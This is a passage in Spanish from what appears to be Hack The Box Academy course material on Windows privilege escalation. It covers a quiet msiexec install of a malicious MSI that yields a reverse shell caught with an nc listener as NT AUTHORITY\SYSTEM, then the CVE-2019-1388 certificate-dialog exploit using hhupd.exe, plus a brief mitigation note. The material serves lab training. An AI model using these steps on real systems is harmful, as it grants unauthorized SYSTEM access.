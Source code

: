 ```r
C:\htb> msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

### Catching Shell

Si todo sale según lo planeado, recibiremos una conexión de vuelta como `NT AUTHORITY\SYSTEM`.

```r
nc -lnvp 9443

listening on [any] 9443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.33] 49720
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
nt authority\system
```

Este problema se puede mitigar deshabilitando las dos configuraciones de Local Group Policy mencionadas anteriormente.

---

## CVE-2019-1388

[CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) fue una vulnerabilidad de escalada de privilegios en el Windows Certificate Dialog, que no aplicaba correctamente los privilegios de usuario. El problema estaba en el mecanismo de UAC, que presentaba una opción para mostrar información sobre el certificado de un ejecutable, abriendo el Windows certificate dialog cuando un usuario hacía clic en el enlace. El campo `Issued By` en la pestaña General se renderiza como un hyperlink si el binary está firmado con un certificado que tiene Object Identifier (OID) `1.3.6.1.4.1.311.2.1.10`. Este valor de OID se identifica en el [wintrust.h](https://docs.microsoft.com/en-us/windows/win32/api/wintrust/) header como [SPC_SP_AGENCY_INFO_OBJID](https://docs.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptformatobject) que es el campo `SpcSpAgencyInfo` en la pestaña de detalles del certificate dialog. Si está presente, un hyperlink incluido en el campo se renderizará en la pestaña General. Esta vulnerabilidad se puede explotar fácilmente usando un ejecutable antiguo firmado por Microsoft ([hhupd.exe](https://packetstormsecurity.com/files/14437/hhupd.exe.html)) que contiene un certificado con el campo `SpcSpAgencyInfo` poblado con un hyperlink.

Cuando hacemos clic en el hyperlink, se lanzará una ventana del navegador ejecutándose como `NT AUTHORITY\SYSTEM`. Una vez abierto el navegador, es posible "salir" de él aprovechando la opción del menú `View page source` para lanzar una consola `cmd.exe` o `PowerShell.exe` como SYSTEM.

Vamos a revisar la vulnerabilidad en práctica.

Primero, haz clic derecho en el ejecutable `hhupd.exe` y selecciona `Run as administrator` desde el menú.

![image](https://academy.hackthebox.com/storage/modules/67/hhupd.png)

Luego, haz clic en `Show information about the publisher's certificate` para abrir el certificate dialog. Aquí podemos ver que el campo `SpcSpAgencyInfo` está poblado en la pestaña de Detalles.
